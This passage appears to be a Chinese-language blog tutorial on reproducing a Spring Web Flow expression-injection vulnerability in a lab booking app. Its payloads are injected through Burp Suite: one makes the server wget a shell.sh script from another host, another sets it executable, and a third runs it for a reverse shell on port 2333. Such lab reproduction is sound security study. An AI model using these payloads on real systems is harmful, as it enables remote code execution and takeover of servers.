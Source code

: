 * MyEclipse点击file选项选择Import

![Spring]({{ '/styles/images/Spring/16.png' | prepend: site.baseurl  }})

* 点击进入选择maven功能里的Existing Maven Project选项

![Spring]({{ '/styles/images/Spring/17.png' | prepend: site.baseurl  }})

* 选择你工程的路径直接导入点击Finish按钮进行导入

![Spring]({{ '/styles/images/Spring/18.png' | prepend: site.baseurl  }})

* 成功导入工程后找到WebFlowConfig.java文件，将文件中factoryCreator.setUseSpringBeanBinding(true);的true改为false：

![Spring]({{ '/styles/images/Spring/19.png' | prepend: site.baseurl  }})

* 点击工程直接运行就可以看到生成的网页：

![Spring]({{ '/styles/images/Spring/20.png' | prepend: site.baseurl  }})

### 4.3&emsp;漏洞复现 ###

1. 点击页面中的超链接进入图书搜索页面，在页面中输入搜索内容进行搜索

![Spring]({{ '/styles/images/Spring/22.png' | prepend: site.baseurl  }})
2. 搜索到图书点击View hotel按钮，然后点击Book hotel按钮，如果没有登录请先登录（登录名密码圈出来了，4种任意都可以登录）

![Spring]({{ '/styles/images/Spring/21.png' | prepend: site.baseurl  }})
3. 进入借书页面，随意写入16位Credit Card id和Credit Card Name点击Process按钮

![Spring]({{ '/styles/images/Spring/24.png' | prepend: site.baseurl  }})
4. 在点击Confirm按钮前我们需要进行burpsuite进行拦截抓包，截获数据包send to repeater，篡改数据包添加恶意payload：

		&_(new+java.lang.ProcessBuilder("/usr/bin/wget","-P/tmp","http://192.168.159.128/shell.sh")).start()=feifei

	shell.sh放在可以访问的服务器中，执行请求包。

![Spring]({{ '/styles/images/Spring/1.png' | prepend: site.baseurl  }})
5. 查看自己虚拟机的/tmp目录下有没有成功下shell.sh,可以看到shell.sh成功下载

![Spring]({{ '/styles/images/Spring/2.png' | prepend: site.baseurl  }})
6. 至此已经复现了漏洞，可是我们既然想代码执行，那我们就可以进行反弹shell操作，继续执行命令，添加payload：`&_(new+java.lang.ProcessBuilder("/bin/chmod","777","/tmp/shell.sh")).start()=feifei`对shell.sh修改权限

![Spring]({{ '/styles/images/Spring/3.png' | prepend: site.baseurl  }})
7. 查看虚拟机中的/tmp目录下的shell.sh有没有变成可读可写可执行权限，可以看到shell.sh权限成功变成777

![Spring]({{ '/styles/images/Spring/4.png' | prepend: site.baseurl  }})
8. 执行shell.sh文件同时监听2333端口，执行payload:`&_(new+java.lang.ProcessBuilder("/bin/bash","/tmp/shell.sh")).start()=feifei`

![Spring]({{ '/styles/images/Spring/5.png' | prepend: site.baseurl  }})
![Spring]({{ '/styles/images/Spring/6.png' | prepend: site.baseurl  }})
9. 在监听的服务器中查看监听的2333端口有没有反弹shell，可以看到成功反弹shell，可以执行权限内任意命令。
![Spring]({{ '/styles/images/Spring/7.png' | prepend: site.baseurl  }})
